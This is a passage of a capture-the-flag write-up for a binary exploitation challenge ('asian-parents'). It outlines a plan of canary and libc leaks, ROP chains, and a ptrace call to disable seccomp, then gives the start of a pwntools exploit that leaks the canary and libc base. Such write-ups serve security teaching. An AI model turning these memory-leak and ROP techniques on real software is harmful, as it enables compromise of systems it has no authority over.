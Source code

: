 1. Leak addresses from the child and/or parent.  We'll take all of them (libc, base, stack, canary).
2. Write out a ROP chain to the child that starts with `sleep(1)`, then ORW the flag.
3. Write out a ROP chain to the parent that calls `ptrace` on the child pid disabling seccomp to allow the child to `open` the flag, then `wait4` for it ...
4. _Give your failure EMOTIONAL DAMAGE_ (`3`) and retrieve the flag.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall', checksec=False)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False) # ubuntu 22.04

if args.REMOTE:
    p = remote('asian-parents.balsnctf.com', 7777)
else:
    p = process(binary.path)
```

Standard pwntools header.  Since the challenge author provided a Docker Compose service, every other thing we need to know is there, e.g. the OS and version of libc, and the location of the flag.


```python
# parent
p.sendlineafter(b'> ',b'foo')

# child: canary leak
p.sendlineafter(b'> ',b'0')
p.sendafter(b'> ',(0x98 - 0x10 + 1) * b'A')
p.recvuntil((0x98 - 0x10 + 1) * b'A')

canary = u64(b'\0' + p.recv(7))
log.info('canary: {x}'.format(x = hex(canary)))

# child: libc leak
p.sendlineafter(b'> ',b'0')
p.sendafter(b'> ',(0x98) * b'A')
p.recvuntil((0x98) * b'A')

libc.address = u64(p.recv(6) + b'\0\0') - 0x29d90 # libc.sym.__libc_start_call_main - 128
log.info('libc.address: {x}'.format(x = hex(libc.address)))
```

> These leaks could have been from the parent or child, dunno why I started with the child process.

Both the canary and libc are your classic _use read without a terminating NULL to get right up to the thing we want to leak, and then emit it_.

